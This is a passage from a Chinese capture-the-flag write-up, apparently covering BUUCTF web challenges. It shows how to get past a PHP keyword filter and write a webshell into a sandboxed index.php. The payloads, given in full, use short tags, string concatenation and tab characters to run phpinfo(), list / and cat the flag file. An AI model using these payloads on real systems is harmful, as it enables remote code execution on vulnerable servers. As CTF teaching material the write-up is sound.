 ```php
        file_put_contents("$dir" . "index.php", $data);
} //向index.php中写入数据
?>
```

先传一下`action=pwd`,返回路径:

```
sandbox/c47b21fcf8f0bc8b3920541abd8024fd/
```

这里输入的`data`参数的值会被写入`sandbox/c47b21fcf8f0bc8b3920541abd8024fd/index.php`中,那么这里的思路就是写一句话木马进去,但是需要绕过`check`函数的过滤

这里使用短标签和字符串拼接来绕过对`php`标签和函数名的过滤:

```
action=upload&data=<?=(p.hpinfo)()?>
```

访问`sandbox/c47b21fcf8f0bc8b3920541abd8024fd/index.php`,能够成功执行`phpinfo()`

那么接下来也不用`eval`了,直接`system`执行系统命令: 这里空格被过滤了,使用`tab(%09)`来代替

```
?action=upload&data=<?=(system)("ls%09/")?>
访问sandbox/c47b21fcf8f0bc8b3920541abd8024fd/index.php:

bin boot dev etc flllllll1112222222lag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var var
```

读取flag:

```
?action=upload&data=<?=(system)("cat%09/flllllll1112222222lag")?>
```

<br>

***

<br>

# [套娃]Welcome to Earth

直接一路抓包在源码里找到下一关的路径就行

有一些在f12抓到的js包里

![image-20221028094031075](../images/buuctf-web3/image-20221028094031075.png)
